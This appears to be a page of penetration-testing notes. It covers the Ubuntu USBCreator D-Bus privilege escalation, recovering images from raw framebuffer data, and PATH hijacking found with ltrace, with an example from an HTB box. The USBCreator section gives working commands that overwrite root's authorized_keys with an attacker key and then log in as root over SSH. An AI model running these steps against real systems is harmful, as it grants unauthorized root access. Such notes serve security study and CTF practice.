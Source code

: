 ### USBCreator D-Bus | com.ubuntu.USBCreator
[https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

#### Steps to exploit

```bash

remote-machine> ps auwx | grep usb

remote-machine> echo "attack-machine id_rsa.pub key" > ~/authorized_keys

remote-machine> gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/remote/authorized_keys /root/.ssh/authorized_keys true

attack-machine> ssh -i id_rsa root@10.10.10.10
```


# Raw image file conversion to actual image
Raw image data can be converted to an actual image to reveal its content.
## Gimp
1. Select the file and its type (Raw image data)
2. Select resolution (`cat /sys/class/graphics/fb0/virtual_size` if unknown)
3. Edit image types
4. Export as png




# Path hijacking and ltrace
If there's a program that can be run by the user but is owned by root check for the following:    

Run the program with `ltrace` see if something fails, or if it's trying to access files which the user has no access to.

If the program opens a file based on the `PATH` environment variable, check if it can be modified.
If it can be, move into a directory which the user can operate under and add it to `$PATH`

## Example (from pandora HTB)
This example can be modified and used for other cases.

- Find the vulnerability
    ```bash
    # Run program with ltrace
    ltrace program

    ## Look for permission errors
    ### No access to /root/file
    system("tar -cvf /root/file"...tar: /root/file.tar.gz: Cannot open: Permission denied
    ```
    `system` calls tar without full path, therefore it will use PATH to look for valid files.
